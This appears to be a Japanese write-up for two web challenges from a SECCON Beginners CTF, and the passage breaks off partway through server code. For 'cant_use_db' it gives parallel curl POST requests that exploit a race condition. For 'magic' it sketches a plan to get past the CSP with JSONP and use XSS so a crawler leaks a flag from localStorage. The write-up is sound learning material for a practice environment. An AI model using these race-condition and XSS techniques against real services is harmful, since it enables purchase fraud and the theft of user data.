 ctf4b{j50n_is_v4ry_u5efu1_bu7_s0metim3s_it_bi7es_b4ck}
# cant_use_db
https://cant-use-db.quals.beginners.seccon.jp/

ファイルをへの書き込みと読み込みでデータベースみたいなことをしている
race condition

```
curl --insecure 'https://cant-use-db.quals.beginners.seccon.jp/buy_noodles' \
  -X 'POST' \
  -H 'authority: cant-use-db.quals.beginners.seccon.jp' \
  -H 'content-length: 0' \
  -H 'origin: https://cant-use-db.quals.beginners.seccon.jp' \
  -H 'cookie: session=eyJ1c2VyIjoiMjA1Ni9RTjZCLW91M3NKbGswRDVudFh0OVhBdEJXWWxkSXNLa3RnRkZ4UFlkIn0.YLjDeA.szyMWZTJSQUHxEVXiipDBqO6TQc' \
  --compressed \
& curl --insecure 'https://cant-use-db.quals.beginners.seccon.jp/buy_noodles' \
  -X 'POST' \
  -H 'authority: cant-use-db.quals.beginners.seccon.jp' \
  -H 'content-length: 0' \
  -H 'origin: https://cant-use-db.quals.beginners.seccon.jp' \
  -H 'cookie: session=eyJ1c2VyIjoiMjA1Ni9RTjZCLW91M3NKbGswRDVudFh0OVhBdEJXWWxkSXNLa3RnRkZ4UFlkIn0.YLjDeA.szyMWZTJSQUHxEVXiipDBqO6TQc' \
  --compressed \
& curl --insecure 'https://cant-use-db.quals.beginners.seccon.jp/buy_soup' \
  -X 'POST' \
  -H 'authority: cant-use-db.quals.beginners.seccon.jp' \
  -H 'content-length: 0' \
  -H 'origin: https://cant-use-db.quals.beginners.seccon.jp' \
  -H 'cookie: session=eyJ1c2VyIjoiMjA1Ni9RTjZCLW91M3NKbGswRDVudFh0OVhBdEJXWWxkSXNLa3RnRkZ4UFlkIn0.YLjDeA.szyMWZTJSQUHxEVXiipDBqO6TQc' \
  --compressed 

```
をした後でflagにアクセスする

ctf4b{r4m3n_15_4n_3553n714l_d15h_f0r_h4ck1n6}
# magic
https://magic.quals.beginners.seccon.jp/

/magicに適切なトークンを渡すことでそのユーザのセッションを得ることができる。
クローラーに自分のセッションを渡して
自分のメモにXSSがあることでローカルストレージにフラグをとれる

```
app.use(function (req, res, next) {
  res.setHeader(
    "Content-Security-Policy",
    "style-src 'self' ; script-src 'self' ; object-src 'none' ; font-src 'none'"
  );
  next();
});
```
CSP level2が設定されている  
```script-src 'self``` なのでJSONP
```
app.get("/magic", async (req, res, next) => {
  // Parameter check
  if (!req.query.token) {
    return res.send("invalid parameter");
  }
  const token = req.query.token.toString();
  const getConnection = promisify(db.getConnection.bind(db));
  const connection = await getConnection();